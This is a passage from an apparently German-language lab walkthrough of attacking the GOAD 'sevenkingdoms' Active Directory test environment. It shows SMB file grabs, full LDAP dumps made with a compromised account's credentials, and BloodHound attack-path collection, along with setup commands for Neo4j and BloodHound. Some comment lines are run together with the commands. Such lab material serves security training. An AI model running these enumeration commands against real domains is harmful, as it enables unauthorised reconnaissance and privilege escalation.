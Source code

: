 ```bash
# In smbclient-Sessionsmb: \> ls
smb: \> get script.ps1
smb: \> get secret.ps1
smb: \> get arya.txt
smb: \> exit
```

---

## Phase 4: Installation & Persistence

### 4.1 LDAP-Enumeration mit kompromittierten Accounts

### Vollständige Domain-Enumeration

```bash
# Mit gültigen Credentials komplette LDAP-Dumpsldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=*)" > ldap_dump_north.txt
# Spezifische Objekt-Klassenldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName userPrincipalName description
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=group)" sAMAccountName member
# Service Principal Names mit Authentifizierungldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "servicePrincipalName=*" servicePrincipalName sAMAccountName
```

### 4.2 BloodHound-Integration für Attack Path Analysis

### BloodHound Python Ingestor

```bash
# Installationpip3 install bloodhound
# Datensammlungbloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c All --zip# Für alle Domänenbloodhound-python -d sevenkingdoms.local -u user -p pass -ns 192.168.20.10 -c All --zipbloodhound-python -d essos.local -u user -p pass -ns 192.168.20.12 -c All --zip
```

### Neo4j und BloodHound Setup

```bash
# Neo4j installierenwget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee /etc/apt/sources.list.d/neo4j.list
apt update && apt install neo4j
# Neo4j startensudo neo4j start
# BloodHound herunterladenwget https://github.com/BloodHoundAD/BloodHound/releases/latest/download/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip
./BloodHound --no-sandbox
```
